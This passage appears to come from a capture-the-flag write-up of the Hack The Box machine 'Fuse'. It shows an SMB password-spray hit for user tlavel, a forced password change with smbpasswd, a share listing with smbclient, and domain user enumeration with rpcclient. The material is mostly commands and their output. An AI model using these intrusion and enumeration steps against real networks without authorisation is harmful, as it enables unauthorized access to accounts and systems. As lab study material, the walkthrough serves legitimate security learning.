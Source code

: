 ```bash
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
................
[*] fuse.htb:445          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We got a match let's try to login 

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ smbclient -L fuse.htb -U tlavel
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ 
```
Okay so we need to change password for smb We can use smbpasswd to do that

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ smbpasswd -r fuse.htb -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ smbclient -L fuse.htb -U tlavel
Enter WORKGROUP\tlavel's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	HP-MFT01        Printer   HP-MFT01
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
[vibhu@parrot]─[~/HTB/boxes/Fuse]$
```

We can use rpcclient for furtherr enumeration

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse]$ rpcclient -L fuse.htb -U tlavel
Enter WORKGROUP\tlavel's password: 
rpcclient $>
```

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```
